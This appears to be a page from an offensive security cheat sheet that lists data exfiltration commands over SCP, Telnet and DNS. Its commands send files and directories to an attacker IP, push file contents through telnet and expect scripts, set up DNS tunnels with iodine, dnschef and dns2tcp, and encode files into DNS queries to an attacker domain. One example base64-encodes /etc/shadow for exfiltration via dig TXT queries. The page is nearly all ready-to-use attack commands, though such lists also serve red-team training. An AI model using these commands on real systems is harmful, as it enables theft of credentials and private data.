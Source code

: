 #### SSH
- **Exfiltrate a Single File Using SCP:**
	```bash
	scp /path/to/local_file <username>@<remote_ip>:/path/to/remote_directory
	```
- **Exfiltrate a Directory Using SCP:**
	```bash
	scp -r /path/to/dir <username>@<attack_ip>:/path/to/destination
	```
- **Using `scp` Over Non-Standard Ports:**
	```bash
	scp -P <non_standard_port> /path/to/file <username>@<target_ip>:/path/to/destination
	```

#### Telnet
- **Exfiltrate Data Using Telnet:**
	```bash
	telnet <remote_ip> <remote_port> cat /path/to/local_file
	```
- **Automate Telnet Exfiltration with a Script:**
	```bash
	expect -c " spawn telnet <remote_ip> expect \"Escape character is '^]'.\" send \"$(cat /path/to/local_file)\" interact "
	```

#### DNS
- **Exfiltrate data using DNS queries:**
	```bash
	nslookup $(cat /path/to/file | base64 | head -c 253).<attack_domain>
	```
- **Exfiltrate Data via DNS Tunneling Using `iodine`:**
	```bash
	iodine -f -P password tunnel.dns.server.com
	```
- **Exfiltrate Data Using `dnschef`:**
	```bash
	dnschef --fakeip=<remote_ip> --interface eth0
	```
- **Leveraging DNS Tunneling:**
	```bash
	dns2tcp -z -k password -r <resource> -l <port> <target_ip>
	```
- **Exfiltration via DNS TXT Records:** Split data into chunks and encode in Base64, then use `dig` to send each chunk in a DNS query.
	```bash
	dig txt <chunk>.attack_domain.com @<dns_server>
	```
	- Example:
		```bash
		cat /etc/shadow | base64 | split -b 50
		dig txt abc123.attack_domain.com @8.8.8.8
		```
